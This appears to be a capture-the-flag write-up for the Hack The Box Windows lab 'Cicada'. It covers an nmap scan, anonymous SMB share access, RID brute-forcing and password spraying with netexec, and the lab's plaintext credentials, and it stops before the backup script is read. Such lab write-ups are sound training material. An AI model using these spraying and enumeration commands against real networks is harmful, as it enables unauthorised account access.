- Machine Name: Cicada
- OS Type: Windows
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Thu May  1 21:24:59 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.11.35
Nmap scan report for 10.10.11.35
Host is up, received echo-reply ttl 127 (0.28s latency).
Scanned at 2025-05-01 21:25:00 IST for 662s
Not shown: 65522 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-01 23:04:26Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
| SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
| -----BEGIN CERTIFICATE-----
| MIIF4DCCBMigAwIBAgITHgAAAAOY38QFU4GSRAABAAAAAzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGY2ljYWRh
| MRUwEwYDVQQDEwxDSUNBREEtREMtQ0EwHhcNMjQwODIyMjAyNDE2WhcNMjUwODIy
| MjAyNDE2WjAfMR0wGwYDVQQDExRDSUNBREEtREMuY2ljYWRhLmh0YjCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAOatZznJ1Zy5E8fVFsDWtq531KAmTyX8
| BxPdIVefG1jKHLYTvSsQLVDuv02+p29iH9vnqYvIzSiFWilKCFBxtfOpyvCaEQua
| NaJqv3quymk/pw0xMfSLMuN5emPJ5yHtC7cantY51mSDrvXBxMVIf23JUKgbhqSc
| Srdh8fhL8XKgZXVjHmQZVn4ONg2vJP2tu7P1KkXXj7Mdry9GFEIpLdDa749PLy7x
| o1yw8CloMMtcFKwVaJHy7tMgwU5PVbFBeUhhKhQ8jBR3OBaMBtqIzIAJ092LNysy
| 4W6q8iWFc+Tb43gFP4nfb1Xvp5mJ2pStqCeZlneiL7Be0SqdDhljB4ECAwEAAaOC
| Au4wggLqMC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFAY5YMN7
| Sb0WV8GpzydFLPC+751AMB8GA1UdIwQYMBaAFIgPuAt1+B1uRE3nh16Q6gSBkTzp
| MIHLBgNVHR8EgcMwgcAwgb2ggbqggbeGgbRsZGFwOi8vL0NOPUNJQ0FEQS1EQy1D
| QSxDTj1DSUNBREEtREMsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2Vz
| LENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2ljYWRhLERDPWh0Yj9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb0GCCsGAQUFBwEBBIGwMIGtMIGqBggrBgEFBQcwAoaB
| nWxkYXA6Ly8vQ049Q0lDQURBLURDLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWNpY2Fk
| YSxEQz1odGI/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmlj
| YXRpb25BdXRob3JpdHkwQAYDVR0RBDkwN6AfBgkrBgEEAYI3GQGgEgQQ0dpG4APi
| HkGYUf0NXWYT14IUQ0lDQURBLURDLmNpY2FkYS5odGIwDQYJKoZIhvcNAQELBQAD
| ggEBAIrY4wzebzUMnbrfpkvGA715ds8pNq06CN4/24q0YmowD+XSR/OI0En8Z9LE
| eytwBsFZJk5qv9yY+WL4Ubb4chKSsNjuc5SzaHxXAVczpNlH/a4WAKfVMU2D6nOb
| xxqE1cVIcOyN4b3WUhRNltauw81EUTa4xT0WElw8FevodHlBXiUPUT9zrBhnvNkz
| obX8oU3zyMO89QwxsusZ0TLiT/EREW6N44J+ROTUzdJwcFNRl+oLsiK5z/ltLRmT
| P/gFJvqMFfK4x4/ftmQV5M3hb0rzUcS4NJCGtclEoxlJHRTDTG6yZleuHvKSN4JF
| ji6zxYOoOznp6JlmbakLb1ZRLA8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
| SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
| -----BEGIN CERTIFICATE-----
| MIIF4DCCBMigAwIBAgITHgAAAAOY38QFU4GSRAABAAAAAzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGY2ljYWRh
| MRUwEwYDVQQDEwxDSUNBREEtREMtQ0EwHhcNMjQwODIyMjAyNDE2WhcNMjUwODIy
| MjAyNDE2WjAfMR0wGwYDVQQDExRDSUNBREEtREMuY2ljYWRhLmh0YjCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAOatZznJ1Zy5E8fVFsDWtq531KAmTyX8
| BxPdIVefG1jKHLYTvSsQLVDuv02+p29iH9vnqYvIzSiFWilKCFBxtfOpyvCaEQua
| NaJqv3quymk/pw0xMfSLMuN5emPJ5yHtC7cantY51mSDrvXBxMVIf23JUKgbhqSc
| Srdh8fhL8XKgZXVjHmQZVn4ONg2vJP2tu7P1KkXXj7Mdry9GFEIpLdDa749PLy7x
| o1yw8CloMMtcFKwVaJHy7tMgwU5PVbFBeUhhKhQ8jBR3OBaMBtqIzIAJ092LNysy
| 4W6q8iWFc+Tb43gFP4nfb1Xvp5mJ2pStqCeZlneiL7Be0SqdDhljB4ECAwEAAaOC
| Au4wggLqMC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFAY5YMN7
| Sb0WV8GpzydFLPC+751AMB8GA1UdIwQYMBaAFIgPuAt1+B1uRE3nh16Q6gSBkTzp
| MIHLBgNVHR8EgcMwgcAwgb2ggbqggbeGgbRsZGFwOi8vL0NOPUNJQ0FEQS1EQy1D
| QSxDTj1DSUNBREEtREMsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2Vz
| LENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2ljYWRhLERDPWh0Yj9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb0GCCsGAQUFBwEBBIGwMIGtMIGqBggrBgEFBQcwAoaB
| nWxkYXA6Ly8vQ049Q0lDQURBLURDLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWNpY2Fk
| YSxEQz1odGI/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmlj
| YXRpb25BdXRob3JpdHkwQAYDVR0RBDkwN6AfBgkrBgEEAYI3GQGgEgQQ0dpG4APi
| HkGYUf0NXWYT14IUQ0lDQURBLURDLmNpY2FkYS5odGIwDQYJKoZIhvcNAQELBQAD
| ggEBAIrY4wzebzUMnbrfpkvGA715ds8pNq06CN4/24q0YmowD+XSR/OI0En8Z9LE
| eytwBsFZJk5qv9yY+WL4Ubb4chKSsNjuc5SzaHxXAVczpNlH/a4WAKfVMU2D6nOb
| xxqE1cVIcOyN4b3WUhRNltauw81EUTa4xT0WElw8FevodHlBXiUPUT9zrBhnvNkz
| obX8oU3zyMO89QwxsusZ0TLiT/EREW6N44J+ROTUzdJwcFNRl+oLsiK5z/ltLRmT
| P/gFJvqMFfK4x4/ftmQV5M3hb0rzUcS4NJCGtclEoxlJHRTDTG6yZleuHvKSN4JF
| ji6zxYOoOznp6JlmbakLb1ZRLA8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
| SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
| -----BEGIN CERTIFICATE-----
| MIIF4DCCBMigAwIBAgITHgAAAAOY38QFU4GSRAABAAAAAzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGY2ljYWRh
| MRUwEwYDVQQDEwxDSUNBREEtREMtQ0EwHhcNMjQwODIyMjAyNDE2WhcNMjUwODIy
| MjAyNDE2WjAfMR0wGwYDVQQDExRDSUNBREEtREMuY2ljYWRhLmh0YjCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAOatZznJ1Zy5E8fVFsDWtq531KAmTyX8
| BxPdIVefG1jKHLYTvSsQLVDuv02+p29iH9vnqYvIzSiFWilKCFBxtfOpyvCaEQua
| NaJqv3quymk/pw0xMfSLMuN5emPJ5yHtC7cantY51mSDrvXBxMVIf23JUKgbhqSc
| Srdh8fhL8XKgZXVjHmQZVn4ONg2vJP2tu7P1KkXXj7Mdry9GFEIpLdDa749PLy7x
| o1yw8CloMMtcFKwVaJHy7tMgwU5PVbFBeUhhKhQ8jBR3OBaMBtqIzIAJ092LNysy
| 4W6q8iWFc+Tb43gFP4nfb1Xvp5mJ2pStqCeZlneiL7Be0SqdDhljB4ECAwEAAaOC
| Au4wggLqMC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFAY5YMN7
| Sb0WV8GpzydFLPC+751AMB8GA1UdIwQYMBaAFIgPuAt1+B1uRE3nh16Q6gSBkTzp
| MIHLBgNVHR8EgcMwgcAwgb2ggbqggbeGgbRsZGFwOi8vL0NOPUNJQ0FEQS1EQy1D
| QSxDTj1DSUNBREEtREMsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2Vz
| LENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2ljYWRhLERDPWh0Yj9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb0GCCsGAQUFBwEBBIGwMIGtMIGqBggrBgEFBQcwAoaB
| nWxkYXA6Ly8vQ049Q0lDQURBLURDLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWNpY2Fk
| YSxEQz1odGI/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmlj
| YXRpb25BdXRob3JpdHkwQAYDVR0RBDkwN6AfBgkrBgEEAYI3GQGgEgQQ0dpG4APi
| HkGYUf0NXWYT14IUQ0lDQURBLURDLmNpY2FkYS5odGIwDQYJKoZIhvcNAQELBQAD
| ggEBAIrY4wzebzUMnbrfpkvGA715ds8pNq06CN4/24q0YmowD+XSR/OI0En8Z9LE
| eytwBsFZJk5qv9yY+WL4Ubb4chKSsNjuc5SzaHxXAVczpNlH/a4WAKfVMU2D6nOb
| xxqE1cVIcOyN4b3WUhRNltauw81EUTa4xT0WElw8FevodHlBXiUPUT9zrBhnvNkz
| obX8oU3zyMO89QwxsusZ0TLiT/EREW6N44J+ROTUzdJwcFNRl+oLsiK5z/ltLRmT
| P/gFJvqMFfK4x4/ftmQV5M3hb0rzUcS4NJCGtclEoxlJHRTDTG6yZleuHvKSN4JF
| ji6zxYOoOznp6JlmbakLb1ZRLA8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
| SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
| -----BEGIN CERTIFICATE-----
| MIIF4DCCBMigAwIBAgITHgAAAAOY38QFU4GSRAABAAAAAzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGY2ljYWRh
| MRUwEwYDVQQDEwxDSUNBREEtREMtQ0EwHhcNMjQwODIyMjAyNDE2WhcNMjUwODIy
| MjAyNDE2WjAfMR0wGwYDVQQDExRDSUNBREEtREMuY2ljYWRhLmh0YjCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAOatZznJ1Zy5E8fVFsDWtq531KAmTyX8
| BxPdIVefG1jKHLYTvSsQLVDuv02+p29iH9vnqYvIzSiFWilKCFBxtfOpyvCaEQua
| NaJqv3quymk/pw0xMfSLMuN5emPJ5yHtC7cantY51mSDrvXBxMVIf23JUKgbhqSc
| Srdh8fhL8XKgZXVjHmQZVn4ONg2vJP2tu7P1KkXXj7Mdry9GFEIpLdDa749PLy7x
| o1yw8CloMMtcFKwVaJHy7tMgwU5PVbFBeUhhKhQ8jBR3OBaMBtqIzIAJ092LNysy
| 4W6q8iWFc+Tb43gFP4nfb1Xvp5mJ2pStqCeZlneiL7Be0SqdDhljB4ECAwEAAaOC
| Au4wggLqMC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8A
| bABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/
| BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3
| DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjAL
| BglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFAY5YMN7
| Sb0WV8GpzydFLPC+751AMB8GA1UdIwQYMBaAFIgPuAt1+B1uRE3nh16Q6gSBkTzp
| MIHLBgNVHR8EgcMwgcAwgb2ggbqggbeGgbRsZGFwOi8vL0NOPUNJQ0FEQS1EQy1D
| QSxDTj1DSUNBREEtREMsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2Vz
| LENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y2ljYWRhLERDPWh0Yj9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb0GCCsGAQUFBwEBBIGwMIGtMIGqBggrBgEFBQcwAoaB
| nWxkYXA6Ly8vQ049Q0lDQURBLURDLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWNpY2Fk
| YSxEQz1odGI/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmlj
| YXRpb25BdXRob3JpdHkwQAYDVR0RBDkwN6AfBgkrBgEEAYI3GQGgEgQQ0dpG4APi
| HkGYUf0NXWYT14IUQ0lDQURBLURDLmNpY2FkYS5odGIwDQYJKoZIhvcNAQELBQAD
| ggEBAIrY4wzebzUMnbrfpkvGA715ds8pNq06CN4/24q0YmowD+XSR/OI0En8Z9LE
| eytwBsFZJk5qv9yY+WL4Ubb4chKSsNjuc5SzaHxXAVczpNlH/a4WAKfVMU2D6nOb
| xxqE1cVIcOyN4b3WUhRNltauw81EUTa4xT0WElw8FevodHlBXiUPUT9zrBhnvNkz
| obX8oU3zyMO89QwxsusZ0TLiT/EREW6N44J+ROTUzdJwcFNRl+oLsiK5z/ltLRmT
| P/gFJvqMFfK4x4/ftmQV5M3hb0rzUcS4NJCGtclEoxlJHRTDTG6yZleuHvKSN4JF
| ji6zxYOoOznp6JlmbakLb1ZRLA8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
54509/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 43674/tcp): CLEAN (Timeout)
|   Check 2 (port 25145/tcp): CLEAN (Timeout)
|   Check 3 (port 62917/udp): CLEAN (Timeout)
|   Check 4 (port 30532/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-01T23:05:20
|_  start_date: N/A

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  1 21:36:02 2025 -- 1 IP address (1 host up) scanned in 663.04 seconds
```

## Enumeration

### Port 139,445/SMB

let’s first check SMB for null session/ anonymous login access

```bash
smbclient -L //10.10.11.35 -N
```



nice we have DEV, HR non-default share on the machine

let’s connect to both  shares



sadly we don’t have listing access in DEV share, moving to HR share

```bash
smbclient //10.10.11.35/HR -N
```



i downloaded file via get command let’s read the txt file 



it looks like there’s new hire in the Cicada corp and we got the user’s password but to use this password we need valid username let’s first check if we can access the msrpc

but no success, i tried to enumerate users via LDAP, msrpc and kerbrute but no success, then i took a hint and found that we need to bruteforce the RID to enumerate users, we can do it via netexec

```bash
netexec smb 10.10.11.35 -u anonymous -p '' --rid-brute
```



as we can see thee (SidTypeUser) means it is the user account let’s create a list of valid usernames users.txt

```bash
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

nice now we do have the usernames and password let’s check if any user is using default password or not

```bash
netexec smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```



we found valid set of creds - `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`

great now let’s use netexec to enumerate user once again in case if we missed anything

```bash
netexec smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```



let’s enumerate shares with newly obtained creds → `david.orelious:aRt$Lp#7t*VQ!3`

```bash
netexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```



we have now access to DEV share as well let’s connect to it via smbclient

```bash
smbclient //10.10.11.35/DEV -U 'cicada.htb\david.orelious%aRt$Lp#7t*VQ!3'
```



i downloaded the Backup_script.ps1 using get command



let’s see what is Backup_script.ps1 

